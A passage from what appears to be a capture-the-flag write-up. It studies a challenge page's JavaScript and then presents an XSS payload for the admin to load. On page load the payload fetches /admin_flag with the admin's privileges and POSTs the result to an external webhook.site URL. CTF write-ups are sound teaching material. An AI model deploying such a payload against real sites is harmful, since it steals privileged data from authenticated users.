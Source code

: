 ```html
        var flag = '';
        f = function(e) {
            $.ajax({
                type: "GET",
                url: "/admin_flag",
                success: function(resp) {
                    flag = resp;
                    $("#responseAlert").text(resp);
                    $("#responseAlert").css("display", "");
                }
            }) return flag;
        };
        $('.flag-button').on('click', f);
    </script>
</body>
```

Here we get some additional buttons, and one of them seems nice: `Access Flag`. Let's try to get the flag.

### Getting the flag

The following code from the listing above is of interest:

```javascript
var flag = '';
f = function(e) {
    $.ajax({
        type: "GET",
        url: "/admin_flag",
        success: function(resp) {
            flag = resp;
            $("#responseAlert").text(resp);
            $("#responseAlert").css("display", "");
        }
    }) return flag;
};
$('.flag-button').on('click', f);
```

So when the flag button is clicked, a query to `/admin_flag` is performed, and it is then displayed in the `#responseAlert` label. 

To simplify, we know the flag is located at the `/admin_flag` endpoint. Of course we cannot access it when we are a regular user. But then we may access it when we are admin. So let's send to the admin the following code:

```html
<script>
window['onload'] = function() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/admin_flag', false);
    xhr.send();
    var xhr2 = new XMLHttpRequest();
    xhr2.open('POST', 'https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807', true);

    xhr2.send(JSON.stringify({
        'a': xhr.response
    }));
};
</script>
```
